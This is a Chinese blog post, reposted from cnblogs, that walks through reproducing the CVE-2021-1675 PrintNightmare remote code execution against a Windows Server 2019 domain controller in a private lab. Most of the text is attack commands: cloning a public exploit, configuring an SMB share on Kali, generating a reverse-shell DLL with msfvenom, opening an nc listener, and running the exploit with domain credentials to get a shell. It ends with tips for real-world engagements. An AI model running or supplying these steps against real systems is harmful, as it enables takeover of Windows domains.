

# CVE-2021-1675 远程 RCE 复现 - SecIN 社区 - 博客园

> 原文：[`www.cnblogs.com/SecIN/p/15465178.html`](https://www.cnblogs.com/SecIN/p/15465178.html)

## 前言

为了复现前几天爆出的 CVE-2021-1675 远程 RCE，我的周末过得很充实，谨以此篇记录那个永远都回不来的周末。

## 测试环境

DC：Windows Server 2019 192.168.110.110

PC：Windows 10 192.168.110.120

Attack：Kali2020.3 192.168.110.132

在域控`Windows Server 2019`上创建普通域用户`user1`，使用`user1`登录域主机`Windows 10`确定可用

## 远程 RCE 复现

exp 地址：[`github.com/cube0x0/CVE-2021-1675`](https://github.com/cube0x0/CVE-2021-1675)

```
git clone https://github.com/cube0x0/CVE-2021-1675.git 
```

按照 exp 项目上 smb 上传后执行的方法，配置 kali 的 smb 配置文件/etc/samba/smb.conf：

```
[global]
map to guest = Bad User
server role = standalone server
usershare allow guests = yes
idmap config * : backend = tdb
smb ports = 445

[smb]
comment = Samba
path = /tmp/
guest ok = yes
read only = no
browsable = yes
force user = nobody 
```

启动 smb

```
impacket-smbserver smb /tmp/ 
```


kali 使用 msf 生成 dll 木马：

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.110.132 LPORT=7777 -f dll -o /tmp/sjbs.dll 
```

并监听端口：

```
nc -lvvp 7777 
```

运行 exp:

```
python3 CVE-2021-1675.py hacker.test/win10:ShiJinBuShi@192.168.110.110 '\\192.168.110.132\smb\sjbs.dll' 
```


看到刚生成的 dll 木马成功上传到了域控服务器：


接收到 shell：


## 踩到的坑

域控服务器：最开始是使用的`Windows Server 2012 R2`，可惜不管什么姿势都无法成功。后来学长告诉我：


Kali 的 smb 服务：正常起 smb 服务后运行 exp 报错了


本地测试一下：



管理员权限 powershell 启用 smb1 后就好了：

```
Enable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol 
```

但是实战中我们不可能去域控上打开 SMB1，所以只需要 Windows 开启 smb，将 dll 文件放在 Windows 的共享目录并在运行 exp 时使用该地址即可。

本篇参考：

[`github.com/cube0x0/CVE-2021-1675/issues/19`](https://github.com/cube0x0/CVE-2021-1675/issues/19)